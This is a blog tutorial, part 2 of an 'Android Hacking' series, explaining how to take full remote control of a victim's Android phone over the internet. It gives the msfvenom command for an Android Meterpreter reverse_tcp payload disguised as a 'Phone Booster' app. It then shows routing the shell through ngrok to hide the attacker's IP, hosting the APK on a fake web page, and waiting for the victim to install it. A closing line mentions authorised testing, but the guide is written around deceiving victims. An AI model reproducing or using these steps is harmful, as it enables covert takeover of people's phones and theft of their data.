









By using our site, you agree to our use of cookies to deliver a better site experience.
Android Hacking
PART-2 : Achieving full access of android device over WAN
STEP 1 - Understanding the concept
Well this step will not involve any commands or execution, this step is just for theory, however don't skip it. This section is extremely important for you to understand the commands and why they are used futher in the tutorial.As I had mentioned in the previous tutorial, "make sure that you are connect to the internet and your victim is in your network", in this tutorial we will learn to overcome this problem. Well there is a quite simple solution to this. For that you must refer the diagram given below:

NOTE : All the IP values in the above diagram are imaginary values, they will not be same in your case. Do not depend on these values as are they are used ONLY for the explaination given below.
In the previous video I explained how android hacking attack works when the victim is under the same network as the attacker. In that case, the hacker [ 192.168.43.54 ], would receive a reverse connection over the HTTPS protocol from the victim [ 192.168.43.141 ] through port 1501. Now if you try to set the LHOST as '192.168.43.54', and send this apk file to the victim, the connection will NOT be received by you rather, if the there is a PC with the same IP address as yours in the victim's network, then the connection would proceed to that computer. However, the chances of this is very low and we will not get a reverse connection, so ultimately we are not interested in this. So I'll give you a while to think about this, and we can overcome this issue. I recommend you to at least try to think over this problem, however if you feel totally helpless, don't worry, I was in the same situation :p.
Ever heard of Port Forwarding ??!! In short, the only thing you need to know [ at least for this tutorial ] is that, port forwarding is a technique which is most commanly used for making services [ msf handler in our case ] on a host of a protected network [ i.e the Hacker's network ], publicly available to the host on the external network [ i.e the Victim's network ]. Therefore basically we can get a reverse connection through the internet to our PC. Now you can try using your router's settings to enable port forwarding and set up custom IPv4 and ports, however, I prefer NOT doing that, because if you do this you will need to put your public IP in the apk as LHOST. If someone gets hold of that apk file and decompiles it, he can extract your public IP out of that [ it is a tedious process but not impossible ]. So it's better if you use a service like NGROK. If you use a service like NGROK, your public IP will be hidden by placing the NGROK servers in the LHOST.
So this means that we can basically make the apk send a reverse connection to the NGROK servers which will forward the traffic to our local computer. To set-up NGROK you can read my tutorial by simply clicking here, or alternatively you can visit ther site ngrok.com
STEP 2 - Generating the payload
Now before we generate the payload, we must configure our ngrok.yaml file. I have already configured it but, in case you haven't then you can do it by reading this tutorial.Once you successfully configure ngrok, you can start all tunnels by typing 'ngrok start --all' and hit enter.

As you can see, '0.tcp.ngrok.io' is the hostname which is forwarded to localhost at 1501 through port 14745. Got confused??! This is not the time to get confused, basically, any traffic coming through the tcp protocol at 0.tcp.ngrok.io on port number 14735 will be forwarded to localhost at port 1501, and 'https://93c014cd.ngrok.io' will be forwarding traffic to localhost at port 80 [ to our fake apache2 page ]. Now make sure that you have set-up active apache2 page, if you are not sure the check out the previous tutorial, where I explained how to can set-up the apache2 page or you can alternatively use my script directly [ If you already have an existing apache2 page, make sure that you back-up that first ]. Once that is over we can create a payload by using the following command
msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=[PORT_NUMBER] -o Phone Booster.apk

and here you can see that my PC and the victim's device have different public IP addresses which proves that we are on two different networks,

Now since we have generated our apk and our apache2 fake page is already set-up from the last tutorial, we need to just shift the apk to the apache2 server directory :-

Now let's quickly start the msfconsole in order to communicate with our victim's device :-

Now we will set-up things as usual :-

NOTE : Make sure you set LHOST as 'localhost' and not '192.168.xxx.xxx' as ngrok will be forwarding to localhost. I know this seems a bit weird because for us both are actually the same, however, that's how things work! You can try with '192.168.xxx.xxx' and will notice no connection will be accepted by you.
Now just type exploit and hit enter!

Now I'll quickly start the application on my phone [ you will have to wait for your victim to download, install & run the application ].

As you can see I've got full meterpreter access of the victim's device. Now I'll type 'sysinfo' and hit enter to show information about the victim's device.

Okay so these information are exactly correct and so we got the exploit working over WAN !! As always I'll encourage you to try this at your own device(s) in your authorised network(s).
Good Luck,
Vulnx
Vulnx